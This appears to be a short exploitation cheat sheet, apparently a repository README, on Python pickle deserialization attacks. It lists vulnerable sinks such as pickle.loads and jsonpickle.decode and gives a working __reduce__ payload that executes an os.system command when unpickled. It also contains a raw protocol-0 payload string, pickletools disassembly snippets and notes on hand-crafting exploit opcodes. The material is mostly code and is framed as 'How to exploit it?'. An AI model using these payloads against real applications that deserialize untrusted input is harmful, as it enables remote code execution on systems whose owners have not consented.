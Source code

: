 # How to exploit it?
## Sinks:
- cPickle.loads
- pickle.loads
- _pickle.loads
- jsonpickle.decode

## Basic payload:
```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("ls",))
payload = base64.b64encode(pickle.dumps(P()))

print(payload)
# print("Type of payload:", type(payload))
print(pickle.loads(base64.b64decode(payload)))
print(pickle.DEFAULT_PROTOCOL)
```

## Debug pickle opcodes:
```python
import pickle, pickletools
class P:
    def __init__(self, name, age):
        self.name = name
        self.age = age
payload2 = pickle.dumps(P("thang", 20))

print(pickletools.dis(b"\x80\x04\x951\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01P\x94\x93\x94)\x81\x94}\x94(\x8c\x04name\x94\x8c\x05thang\x94\x8c\x03age\x94K\x14ub."))
optim_s = pickletools.optimize(payload2)
print(pickletools.dis(optim_s))
```

```bash
python3 -m pickle data.pkl # Get the object
python3 -m pickletools data.pkl # Disassemble opcodes
python3 -m pickletools data.pkl -a # Verbose explanation
```
## Other payloads:
- Protocol 0: `cos\nsystem\nS'ls'\n\x85R.`

## Writing exploit:
- pickle opcode
- pack, unpack from struct
- bytes
